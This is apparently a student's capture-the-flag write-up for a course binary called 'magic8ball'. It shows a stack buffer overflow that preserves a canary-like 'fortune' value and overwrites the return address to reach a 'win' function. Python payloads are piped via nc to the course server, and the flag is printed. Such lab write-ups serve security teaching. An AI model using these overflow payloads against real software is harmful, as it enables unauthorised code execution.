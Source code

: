 # [buffer overflow magic8ball](https://github.com/li-li-ge/ctf_writeups/blob/main/code/magic8ball)

### nc comp6841.quoccabank.com 5003


* First, use **Binary Ninja** to identify vulnerabilities. We can see the "vuln" function and "win" function. Our goal is to exploit "vuln" to reach "win." Let's break this down into three steps.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball1.png?raw=true)


##### step1 How to create a buffer overflow, and how many bytes are required for the overflow?
* Initially attempted to use GDB to determine this. It seems that the buffer size is at -0x2c(%ebp), which means it is 44bytes above the %ebp.

	~~~
   0x0804871a <+130>:    lea    -0x2c(%ebp),%eax

   0x0804871d <+133>:    push   %eax

   0x0804871e <+134>:    call   0x8048450 <gets@plt>
	~~~

* Given that "fortune1" is pushed onto the stack frame before, it takes up 12 bytes above %ebp. Therefore, the "buf" should be 32 bytes. Please correct me if I am mistaken.

 	~~~
   0x080486d3 <+59>:    mov    $0x804a040,%eax

   0x080486d9 <+65>:    mov    (%eax),%eax

   0x080486db <+67>:    mov    %eax,-0xc(%ebp)

   0x080486de <+70>:    sub    $0x8,%esp

   0x080486e1 <+73>:    push   -0xc(%ebp)
	~~~

#### step 2 How to ensure that "fortune1" remains equal to "fortune"?
* first lets try to check if get buffer overflowed!

	```
	python2 -c 'print "A"*31' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	```

	* let's make it to buffer overflow
	
	``` 
	python2 -c 'print "A"*32' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	the sands of time have changed!!

 	```

* Attempted to debug and found the address to be 0xf0470770, which in decimal is 4031186800. oh. its the fortune.

* Add two breakpoints at the gets the address and the next instruction.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball3.png?raw=true)


* run the test which is "A"*32  or "A" * 33 to check which value be changed, then I found the exactly value is 0xf0470770.

 ![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball4.png?raw=true)

**milestone: finally skipped canary**

	
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" ' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	
	

#### step 3 How to return to the "win" address?

* get the "win" address which is 0x080485e6 by objdump

	```
	objdump -d magic8ball | grep win

	080485e6 <win>:

	804863c:    75 19                    jne    8048657 <win+0x71>

	8048655:    eb 3c                    jmp    8048693 <win+0xad>
	```

* added into our payload but still not returned to the win fun.

	~~~
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" +  "\xe6\x85\x04\x08" ' | 	nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	~~~

 

* It seemed that some bytes needed to be added between the canary and the return address in "vuln." So, I decided to try a **brute-force** approach to determine the number of bytes required. It turned out that 12 bytes were needed to successfully reach the "win" address.

	```
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" + "B"*12 + "\xe6\x85\x04\x08" ' | nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz

	Ive changed your fortune.

	Now your fortune is to go to jail.

	```

	```
	COMP6841{SOMEWHAT_OF_A_BIRD_WATCHER}
	```

 

 

 

